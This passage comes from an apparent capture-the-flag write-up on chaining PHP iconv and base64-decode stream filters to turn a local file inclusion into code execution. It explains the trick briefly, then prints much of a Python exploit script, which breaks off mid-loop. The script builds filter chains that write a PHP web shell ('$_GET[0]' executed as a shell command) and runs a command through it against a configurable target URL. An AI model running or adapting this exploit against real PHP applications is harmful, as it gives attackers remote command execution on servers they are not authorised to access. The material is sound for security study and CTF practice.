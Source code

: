 Read the writeup linked above to understand how they found it, but here's the basic idea:

* `convert.iconv.UTF8.CSISO2022KR` will always prepend `\x1b$)C` to the string
* `convert.base64-decode` is extremely tolerant, it will basically just ignore any characters that aren't valid base64.

Combining these and a lot of `convert.iconv` to convert between encodings, we can get any arbitrary base64 string that we can decode and include. Here's the exploit script used to automatically do this for a PHP shell, and then execute commands using it:

```python
import requests

url = "http://localhost/index.php"  # CHANGE to vulnerable URL
file_to_use = "/etc/passwd"  # CHANGE to any file on target
command = "/readflag"  # CHANGE to command to be executed

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
```